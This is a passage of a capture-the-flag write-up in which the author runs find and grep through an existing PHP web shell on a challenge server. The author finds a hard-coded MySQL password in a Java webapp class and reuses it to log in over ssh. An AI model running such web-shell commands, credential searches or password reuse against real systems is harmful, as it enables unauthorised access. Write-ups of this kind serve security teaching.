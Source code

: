 It should also be noted that the web shell we are using is owned by the current user and created
after the level was started. This probably means we are using someone elses web shell, and not the
one hinted to in Hint 3. But oh well, what works works :).

## What is Alabaster Snowball's password?

Hint 8 again points us in the direction of the development site:

> Pro developer tip: Sometimes developers hard code credentials into their development files. Never do this, or at least make sure you take them out before publishing them or putting them into production. You also should avoid reusing credentials for different services, even on the same system.
>
> -- Sparkle Redberry, Hint 8

The first step would then be to find where on the file system that it is located. Since it's a java webapp,
let's assume it has a .jar somewhere close:

```
$ find / -name *.jar
https://l2s.northpolechristmastown.com/.K2tN5T3RX2x6j2NnZ3W1.php?e=find%20/%20-name%20*.jar

/usr/share/java/libintl.jar
/opt/apache-tomcat/webapps/ROOT/WEB-INF/lib/struts2-convention-plugin-2.5.12.jar
/opt/apache-tomcat/webapps/ROOT/WEB-INF/lib/commons-collections-3.2.1.jar
[...]
```

It seems like the site is located in `/opt/apache-tomcat/webapps/ROOT/`. Let's see if we are lucky
enough that we can simply grep for the password 
(see also: [How do I find all files containing specific text on Linux?
](https://stackoverflow.com/questions/16956810/how-do-i-find-all-files-containing-specific-text-on-linux)):

```
$ grep -C 4 -rnw '/opt/apache-tomcat/webapps/ROOT/' -e 'password'
https://l2s.northpolechristmastown.com/.K2tN5T3RX2x6j2NnZ3W1.php?e=grep%20-C%204%20-rnw%20%27/opt/apache-tomcat/webapps/ROOT/%27%20-e%20%27password%27

[...]
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class-1-    public class Connect {
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class-2-            final String host = "localhost";
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class-3-            final String username = "alabaster_snowball";
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:4:            final String password = "stream_unhappy_buy_loss";   
[...]
```

We find a password used for MySql. Judging by the hint earlier, perhaps this is also the password
for the linux user?

We can confirm this by logging in to the server via ssh:
```
peter@peter-VirtualBox:~/Desktop$ ssh alabaster_snowball@l2s.northpolechristmastown.com
alabaster_snowball@l2s.northpolechristmastown.com's password: 
Linux l2s 4.9.0-4-amd64 #1 SMP Debian 4.9.51-1 (2017-09-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Dec 16 11:08:13 2017 from 10.142.0.2
```
